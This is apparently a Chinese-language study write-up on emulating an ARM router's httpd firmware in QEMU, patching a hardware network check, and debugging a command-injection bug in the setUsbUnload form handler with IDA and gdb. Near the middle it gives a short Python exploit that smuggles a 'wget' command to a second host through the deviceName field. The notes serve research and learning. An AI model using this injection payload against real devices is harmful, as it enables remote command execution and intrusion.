 # 基础信息分析
binwalk解压固件
![[Pasted image 20240801162939.png]]
![[Pasted image 20240801165211.png]]
获取到是squashfs文件系统，且是32位的ARM小端序架构
![[Pasted image 20240801171119.png]]
firmwalker-pro-max获取到是httpd服务
![[Pasted image 20240802104454.png]]
看了一下其启动项，创建挂载了一些文件，复制了两个文件夹，这个平时分析不常见特别注意一下
# user模拟固件
先用user模式启动一下，`--strace`: 启用系统调用跟踪。
![[Pasted image 20240801172122.png]]
![[Pasted image 20240801172041.png]]
发现没起来httpd服务，卡在了welcome to...，去IDA查看一下报错信息
![[Pasted image 20240801172253.png]]
定位到这里后，下个断点动态调试看一下是哪里有问题
![[Pasted image 20240801173325.png]]
加个端口再运行一下
```bash
sudo chroot . ./qemu-arm-static -g 9999 ./bin/httpd
```
![[Pasted image 20240801173849.png]]
用IDA连接后，运行到断点处，发现一直在三个框转圈循环跳不出来，那么httpd起不来就是这里的问题了，去查了一下这里应该是在检查硬件启动的网络，由于我们是模拟的所以一直就会卡在这里，故需要patch一下跳过这里，由于是R3跟0比较，而R3又是R0赋值的，在check_network函数return的值为0，故直接给R3赋值个1，使其绕过
![[Pasted image 20240802165617.png]]
把patch完的httpd二进制文件再放回bin目录下（这里最好不要改名，因为我改了名出了些问题，把原来的httpd做个备份以防万一就好）
这里再再次启动httpd，发现web端还是打不开还是有问题，再看一下错误信息，ip地址应该是有个初始化
![[Pasted image 20240802101307.png]]
去IDA查询
![[Pasted image 20240802101449.png]]
![[Pasted image 20240802101925.png]]
交叉引用追溯到这里，ip是通过v8传来的，而v8经过了inet_ntoa函数处理了sa_data[2]得到
```
`inet_ntoa` 将一个 `struct in_addr` 类型的结构体中的 IP 地址转换为人类可读的字符串形式（点分十进制）。这个函数通常用于调试和日志记录，以便以一种直观的方式显示 IP 地址。
```
再去看一下上层调用，发现又是对a1判断后对sa_data[2]赋值
![[Pasted image 20240802102509.png]]
![[Pasted image 20240802102640.png]]
再向上调用，发现这里的v8就是刚刚传过去的a1，而v8是g_lan_ip，是个全局变量
```
g_lan_ip可能是一个全局变量，用于存储设备或主机在局域网中的 IP 地址。这个变量通常在初始化时被赋值，并在整个程序中使用。
```
所以我们要去配置一个网口为br0的
![[Pasted image 20240801185116.png]]
至于这里的br0，还得请教一下轩尼诗道_burp师傅了
![[Pasted image 20240802103836.png]]
再再再次启动，发现访问到了是没有界面
![[Pasted image 20240802103945.png]]
基础分析中我们说到，启动项中复制了两个文件，其中有一个是web端存放着的html等文件，故照葫芦画瓢，执行启动项的这条命令
```bash
cp -rf ./weroot_ro/* ./webroot/
```
![[Pasted image 20240802105446.png]]
![[Pasted image 20240802105526.png]]
终于有了界面

# 系统模拟固件
现在宿主机中配置网口为tap0
```bash
sudo tunctl -t tap0 -u `whoami`
sudo ifconfig tap0 10.10.10.2/24
```
![[Pasted image 20240801175609.png]]
启动qemu虚拟机
```bash
sudo qemu-system-arm -M vexpress-a9 -kernel vmlinuz-3.2.0-4-vexpress -initrd initrd.img-3.2.0-4-vexpress -drive if=sd,file=debian_wheezy_armhf_standard.qcow2 -append "root=/dev/mmcblk0p2 console=ttyAMA0" -net nic -net tap,ifname=tap0,script=no,downscript=no -nographic
```
在虚拟机中配置网口
```bash
# 创建桥接接口 br0
sudo ip link add br0 type bridge
# 将 eth0 添加到桥接 br0
sudo ip link set eth0 master br0
# 激活桥接接口 br0 和物理接口 eth0
sudo ip link set br0 up
sudo ip link set eth0 up
# 为桥接接口 br0 分配 IP 地址
sudo ifconfig br0 10.10.10.3/24
# 移除 eth0 的 IP 地址
sudo ifconfig eth0 0.0.0.0
```
![[Pasted image 20240801192224.png]]
开启HTTPServer服务，把打包好的固件文件传到qemu虚拟机
![[Pasted image 20240801191309.png]]
![[Pasted image 20240801192322.png]]
```bash
#挂载本地环境
mount --bind /proc /proc
mount --bind /dev /dev
mount --bind /sys /sys
#启动httpd服务
cd squashfs-root
chroot . sh
httpd
```
![[Pasted image 20240801192822.png]]
![[Pasted image 20240802113751.png]]
# 漏洞分析
在IDA搜索了system危险函数，找到dosystem函数，看交叉引用发现很多，一个个分析
主要是学习动态调试，故也不一一分析
在formsetUsbUnload函数中，执行命令v3是sub_2ba8c函数处理了
![[Pasted image 20240802172708.png]]
追进去看也只是些判断，并没有发现过滤什么，存在命令执行漏洞
![[Pasted image 20240802172828.png]]
![[Pasted image 20240802172835.png]]
在web端找到漏洞点抓包，发包测试，成功（学习动调，不具体分析先）
![[Pasted image 20240802120607.png]]
![[Pasted image 20240802120547.png]]
# exp
```
import requests

url = "http://10.10.10.3:80/goform/setUsbUnload"
Cookies = {"password": " "}
Headers = {"Origin": "http://10.10.10.3", "Referer": "http://10.10.10.3/status_usb.html"}
Data = {"deviceName": "undefined;wget http://10.10.10.2:8000/123"}
requests.post(url, headers=Headers,cookies=Cookies, data=Data)
```
# 动态调试
把gdbserver对应的版本传到qemu虚拟机中，并且把权限改掉
![[Pasted image 20240802144854.png]]
![[Pasted image 20240802144945.png]]
启动httpd服务，再另起一个终端，ssh root@10.10.10.3 查看进程
![[Pasted image 20240802160752.png]]
这里调试 --attach 3140 附加进程 3140
在宿主机中打开gdb-multiarch bin/httpd，进去后设置一些参数
```bash
#设置arm架构
set architecture arm
#设置小端序
set endian little
#加载动态库
set solib-search-path lib/
set sysroot lib/

1. set sysroot lib/:
   - 这个命令设置了系统根目录（sysroot），用于指定查找系统库的路径。它通常用于交叉调试，告诉 GDB 在 `lib/` 目录中查找库文件。

2. set solib-search-path lib:
   - 这个命令指定了共享库的搜索路径。GDB 会在这个路径中查找动态链接库，以便在调试时能够加载相关的共享库。
```
![[Pasted image 20240802160824.png]]
先在另一个终端中运行我们写的exp，在我们上述分析的函数下断点，追踪过来，进入函数发现我们命令已经存在寄存器上了
![[Pasted image 20240802161849.png]]
我们传入的参数最终是要和cfm命令中的%s拼接
![[Pasted image 20240802161931.png]]
这里可以看到r3寄存器存了我们传的命令，r0是格式化字符串打印，r1是51，r2是3
而r0-r2是写死的不可控，只有r3，%s的地方是我们可以通过burp发包可控的
![[Pasted image 20240802162017.png]]
![[Pasted image 20240802162200.png]]
最后R0,R1,R3寄存器清空，R2寄存器拼接了51，3，以及我们输入的命令